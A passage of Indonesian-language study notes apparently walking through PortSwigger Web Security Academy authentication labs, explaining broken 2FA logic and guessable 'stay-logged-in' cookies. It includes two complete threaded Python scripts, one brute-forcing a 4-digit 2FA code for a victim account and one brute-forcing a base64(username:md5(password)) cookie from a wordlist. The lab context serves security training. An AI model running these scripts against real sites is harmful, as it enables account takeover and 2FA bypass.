





##### Tutorial

1. Login dengan akun sendiri (`wiener:peter`) dan catat nilai cookie `verify`.
2. Ubah cookie `verify` jadi `carlos` saat mengirim kode 2FA — server percaya cookie untuk menentukan akun mana yang diverifikasi.
3. Brute-force `mfa-code` 4 digit (0000–9999). Respons 302 adalah kode benar; script lalu membuka `/my-account?id=carlos` untuk menyelesaikan lab.
4. Pastikan halaman akun Carlos termuat (lab solved).

**Script:**

```python
#!/usr/bin/env python3
"""
2FA broken logic — brute force mfa-code then auto-login (PortSwigger lab).

Usage:
  python3 2fa-broken-logic.py \
    --url https://<id>.web-security-academy.net/login2 \
    --cookie "session=...; verify=carlos" \
    --victim carlos --workers 20 [--open]

On hit: prints the 302, then GET /my-account?id=<victim> with the same session
(that request is the auto-login / lab solve step).
"""
from __future__ import annotations

import argparse
import sys
import threading
from pathlib import Path
from concurrent.futures import ThreadPoolExecutor
from urllib.parse import urlparse

try:
    import requests
    from requests import RequestException
except ImportError:
    print('error: pip3 install requests', file=sys.stderr)
    sys.exit(2)


def main() -> int:
    ap = argparse.ArgumentParser(description='2FA broken logic: brute force mfa-code + auto-login.')
    ap.add_argument('--url', required=True, help='https://<id>.web-security-academy.net/login2')
    ap.add_argument('--cookie', required=True, help='session=...; verify=carlos')
    ap.add_argument('--victim', default='carlos')
    ap.add_argument('--workers', type=int, default=20)
    ap.add_argument('--width', type=int, default=4)
    ap.add_argument('--timeout', type=float, default=20.0)
    ap.add_argument('--open', action='store_true', help='open browser on success')
    ap.add_argument('--cookie-out', default='', help='write session cookies as JSON here')
    args = ap.parse_args()

    p = urlparse(args.url)
    base = f'{p.scheme}://{p.netloc}'

    sess = requests.Session()
    sess.headers.update({
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
        'Content-Type': 'application/x-www-form-urlencoded',
        'Origin': base,
        'Referer': args.url,
    })
    # load the cookie into the jar (NOT the header) so Set-Cookie after login is honoured
    for part in args.cookie.split(';'):
        if '=' in part:
            k, v = part.split('=', 1)
            sess.cookies.set(k.strip(), v.strip())

    codes = [str(i).zfill(args.width) for i in range(10 ** args.width)]
    print(f'[*] target : {args.url}', flush=True)
    print(f'[*] verify : {args.victim}   codes: {len(codes)}   workers: {args.workers}', flush=True)

    lock = threading.Lock()
    state = {'stop': False, 'hit': None}

    def try_code(code):
        with lock:
            if state['stop']:
                return
        try:
            r = sess.post(args.url,
                          data={'verify': args.victim, 'mfa-code': code},
                          timeout=args.timeout, allow_redirects=False)
        except RequestException:
            return
        if r.status_code in (301, 302, 303, 307, 308):
            with lock:
                if state['stop']:
                    return
                state['stop'] = True
                state['hit'] = (code, r.status_code, r.headers.get('Location', ''))
            print(f'[+] HIT mfa-code={code}  status={r.status_code}  -> {r.headers.get("Location","")}', flush=True)
        return

    with ThreadPoolExecutor(max_workers=args.workers) as ex:
        list(ex.map(try_code, codes))

    if not state['hit']:
        print('[-] code not found', flush=True)
        return 1

    code, status, loc = state['hit']
    # auto-login / solve: open the account page with the same session
    acct = sess.get(f'{base}/my-account?id={args.victim}', timeout=args.timeout)
    ok = 'Your username is' in acct.text
    print(f'[*] GET /my-account?id={args.victim} -> {acct.status_code}  logged_in={ok}', flush=True)
    home = sess.get(base + '/', timeout=args.timeout)
    solved = 'Congratulations, you solved the lab' in home.text
    print(f'[*] solved={solved}', flush=True)

    if args.open:
        import webbrowser
        webbrowser.open(f'{base}/my-account?id={args.victim}')

    if args.cookie_out:
        import json
        jar = [{'name': c.name, 'value': c.value, 'domain': c.domain, 'path': c.path}
               for c in sess.cookies]
        Path(args.cookie_out).write_text(json.dumps(jar, indent=1), encoding='utf-8')
        print(f'[*] cookies -> {args.cookie_out}', flush=True)

    print(f'\nRESULT victim={args.victim} mfa-code={code} status={status} solved={solved}', flush=True)
    return 0


if __name__ == '__main__':
    sys.exit(main())
```

**Cara menjalankan:**

```bash
python3 2fa-broken-logic.py --url https://<id>.web-security-academy.net/login2 --cookie "session=...; verify=carlos" --victim carlos --workers 20
```

##### Reference

<details>
<summary>10. Authentication Vulnerabilities - Lab #8 2FA broken logic | Short Version — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=dpcrsQ2nhBo
Purpose: Autentikasi dua faktor lab ini rentan karena logikanya cacat. Untuk menyelesaikan lab, kami mengakses halaman akun Carlos.

</details>

<details>
<summary>11. 2FA broken logic | Short Version — Michael Sommer</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=Qf4Z2lcJeis
Purpose: Video ini menunjukkan solusi lab "2FA broken logic" dari Web Security Academy (PortSwigger)

</details>

</details>

### Brute-force kode verifikasi 2FA

Seperti kata sandi, situs perlu mengambil langkah untuk mencegah brute-force kode verifikasi 2FA. Ini sangat penting karena kodenya sering berupa angka sederhana 4 atau 6 digit. Tanpa proteksi brute-force yang memadai, memecahkan kode semacam itu sepele.

Beberapa situs mencoba mencegah ini dengan otomatis mengeluarkan pengguna jika mereka memasukkan sejumlah kode verifikasi salah. Ini tidak efektif dalam praktik karena penyerang tingkat lanjut bahkan bisa mengotomatiskan proses multi-langkah ini dengan membuat macro untuk Burp Intruder. Ekstensi Turbo Intruder juga bisa dipakai untuk tujuan ini.

## Kerentanan pada mekanisme autentikasi lain

Selain fungsi login dasar, kebanyakan situs menyediakan fungsi tambahan agar pengguna bisa mengelola akun mereka. Contohnya, pengguna bisa mengganti kata sandi atau mereset kata sandi saat lupa. Mekanisme ini juga bisa memunculkan kerentanan yang bisa dieksploitasi penyerang.

Situs biasanya berhati-hati menghindari kerentanan yang sudah dikenal di halaman login. Tetapi mudah terlewat bahwa kamu perlu mengambil langkah serupa untuk memastikan fungsi terkait sama kuatnya. Ini sangat penting dalam kasus di mana penyerang bisa membuat akun sendiri, sehingga punya akses mudah untuk mempelajari halaman tambahan ini.

### Menjaga pengguna tetap login

Fitur umum adalah opsi tetap login bahkan setelah menutup sesi browser. Biasanya ini berupa checkbox berlabel seperti "Remember me" atau "Keep me logged in".

Fungsi ini sering diimplementasikan dengan menghasilkan semacam token "remember me", yang lalu disimpan dalam cookie persisten. Karena memiliki cookie ini efektif memungkinkan kamu melewati seluruh proses login, praktik terbaik adalah membuat cookie ini tidak praktis untuk ditebak. Namun, sebagian situs menghasilkan cookie ini berdasarkan gabungan nilai statis yang dapat diprediksi, seperti username dan timestamp. Sebagian bahkan memakai kata sandi sebagai bagian dari cookie. Pendekatan ini sangat berbahaya jika penyerang bisa membuat akun sendiri karena mereka bisa mempelajari cookie mereka sendiri dan berpotensi menyimpulkan bagaimana cookie itu dibuat. Setelah tahu rumusnya, mereka bisa mencoba brute-force cookie pengguna lain untuk mendapatkan akses ke akun mereka.

### Menjaga pengguna tetap login - Lanjutan

Sebagian situs berasumsi bahwa jika cookie dienkripsi dengan cara tertentu maka tidak akan bisa ditebak bahkan jika memakai nilai statis. Meskipun ini mungkin benar jika dilakukan dengan benar, " mengenkripsi" cookie secara naif memakai pengodean dua arah sederhana seperti Base64 tidak memberi perlindungan apa pun. Bahkan memakai enkripsi yang tepat dengan fungsi hash satu arah tidak sepenuhnya kebal. Jika penyerang bisa dengan mudah mengidentifikasi algoritma hashing, dan tidak ada salt dipakai, mereka berpotensi brute-force cookie hanya dengan menghash wordlist mereka. Metode ini bisa dipakai untuk melewati batas percobaan login jika batas serupa tidak diterapkan pada tebakan cookie.

Bahkan jika penyerang tidak bisa membuat akun sendiri, mereka mungkin tetap bisa mengeksploitasi kerentanan ini. Memakai teknik biasa, seperti XSS, penyerang bisa mencuri cookie "remember me" pengguna lain dan menyimpulkan bagaimana cookie itu dibangun dari cookie tersebut. Jika situs dibangun memakai kerangka kerja open-source, detail kunci konstruksi cookie bahkan mungkin didokumentasikan publik.

##### Lab: Brute-forcing a stay-logged-in cookie

Lab ini memungkinkan pengguna tetap login bahkan setelah menutup sesi browser. Cookie yang dipakai untuk menyediakan fungsi ini rentan terhadap brute-force.

<details>
<summary>Lab details, screenshots & walkthrough 0.8</summary>

Untuk menyelesaikan lab, brute-force cookie Carlos untuk mendapatkan akses ke halaman *My account*-nya.

- Kredensialmu: `wiener:peter`
- Username korban: `carlos`
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

**Screenshots:**









##### Tutorial

1. Login dengan `wiener:peter` dan periksa cookie `stay-logged-in` — isinya base64 dari `username:md5(password)`.
2. Cookie-nya `base64(carlos:<md5(kandidat-password)>)`. Kirim dengan tiap kandidat password dan cari respons yang TIDAK memuat `Log in`.
3. Password yang cocok adalah yang cookie-nya mengembalikan halaman akun (tanpa `Log in`).
4. Buka **My account** sebagai Carlos untuk menyelesaikan lab.

**Script:**

```python
#!/usr/bin/env python3
"""
Brute-force stay-logged-in cookie (threaded).
PortSwigger: Authentication - Staying logged in.

Logic: encode carlos:md5(password) as base64, send as cookie.
If response does NOT contain "Log in" → found.

Usage:
  python3 brute_stay_logged_in.py \
    --url https://0a38001b047198bf81ec4de100ff00a0.web-security-academy.net \
    --session h826pmhwmUE0tzA8p8tCgChCh41CmBJTrU \
    --victim carlos \
    --passwords passwords.txt \
    --cookie stay-logged-in \
    --threads 20 \
    --delay 0.2
"""

import argparse
import sys
import time
from hashlib import md5
from base64 import b64encode
from threading import Thread
from pathlib import Path

import requests


def fetch_passwords(filename):
    """Read passwords and encode as base64(carlos:md5(password))."""
    cookies = []
    with open(filename) as f:
        for line in f:
            pw = line.strip().encode("utf-8")
            if not pw:
                continue
            h = md5(pw).hexdigest()
            encoded = b64encode(f"carlos:{h}".encode("utf-8")).decode("ascii")
            cookies.append((pw.decode("utf-8", errors="replace"), encoded))
    return cookies


def send_request(url, session_val, cookie_name, cookie_value, password, results):
    """Send request with stay-logged-in cookie."""
    cookies = {
        "session": session_val,
        cookie_name: cookie_value,
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0",
    }
    try:
        resp = requests.get(url, cookies=cookies, headers=headers, timeout=10, allow_redirects=True)
        if "Log in" not in resp.text:
            results.append((password, cookie_value))
            print(f"[+] Found! Password: {password} | Cookie: {cookie_value}")
    except Exception as e:
        pass


def main():
    parser = argparse.ArgumentParser(description="Brute-force stay-logged-in cookie")
    parser.add_argument("--url", required=True, help="Target URL (e.g. https://xxx.web-security-academy.net/my-account)")
    parser.add_argument("--session", required=True, help="Valid session cookie value")
    parser.add_argument("--victim", default="carlos", help="Victim username")
    parser.add_argument("--passwords", required=True, help="Password wordlist path")
    parser.add_argument("--cookie", default="stay-logged-in", help="Cookie name")
    parser.add_argument("--threads", type=int, default=20, help="Number of threads")
    parser.add_argument("--delay", type=float, default=0.2, help="Delay between thread starts")
    args = parser.parse_args()

    # Read passwords
    pw_path = Path(args.passwords)
    if not pw_path.exists():
        print(f"ERROR: File not found: {pw_path}")
        sys.exit(1)

    cookies = fetch_passwords(str(pw_path))
    print(f"Loaded {len(cookies)} passwords from {pw_path}")
    print(f"Target: {args.url}")
    print(f"Victim: {args.victim}")
    print(f"Threads: {args.threads}")
    print()

    results = []
    threads = []

    for password, cookie_val in cookies:
        t = Thread(
            target=send_request,
            args=(args.url, args.session, args.cookie, cookie_val, password, results),
        )
        t.daemon = True
        t.start()
        threads.append(t)
        time.sleep(args.delay)

    # Wait for all threads
    for t in threads:
        t.join(timeout=30)

    print()
    if results:
        print("=" * 60)
        print(f"SUCCESS! Found {len(results)} valid cookie(s):")
        for pw, ck in results:
            print(f"  Password: {pw}")
            print(f"  Cookie:   {args.cookie}={ck}")
        print("=" * 60)
    else:
        print("No valid cookie found. Password not in wordlist.")


if __name__ == "__main__":
    main()
```

**Cara menjalankan:**

```bash
python3 brute_stay_logged_in.py --url https://<id>.web-security-academy.net/my-account --session <session-cookie> --victim carlos --passwords passwords.txt --cookie stay-logged-in --threads 20
```

##### Reference

<details>
<summary>12. Authentication Vulnerabilities - Lab #9 Brute-forcing a stay-logged-in cookie — Rana Khalil</summary>

Platform: Youtube
Video: https://www.youtube.com/watch?v=dpcrsQ2nhBo
Purpose: Di video ini, kami membahas Lab #9 pada modul Authentication dari Web Security Academy. Lab ini memungkinkan pengguna tetap login bahkan setelah menutup sesi browser. Cookie yang dipakai untuk menyediakan fungsi ini rentan terhadap brute-force.

</details>

</details>

### Menjaga pengguna tetap login - Lanjutan

Dalam beberapa kasus langka, mungkin ada kemungkinan mendapatkan kata sandi pengguna yang sebenarnya dalam bentuk cleartext dari cookie, bahkan jika di-hash. Versi yang di-hash dari daftar kata sandi populer tersedia online, jadi jika kata sandi pengguna muncul di salah satu daftar ini, mendekripsi hash kadang sesederhana menempelkan hash ke mesin pencari. Ini menunjukkan pentingnya salt dalam enkripsi efektif.

##### Lab: Offline password cracking

Lab ini menyimpan hash kata sandi pengguna dalam cookie. Lab juga mengandung kerentanan XSS pada fungsi komentar. Untuk menyelesaikan lab, dapatkan cookie `stay-logged-in` Carlos dan pakai untuk memecahkan kata sandinya. Lalu, login sebagai `carlos` dan hapus akunnya dari halaman "My account".

<details>
<summary>Lab details, screenshots & walkthrough 0.9</summary>

- Kredensialmu: `wiener:peter`
- Username korban: `carlos`

**Screenshots:**









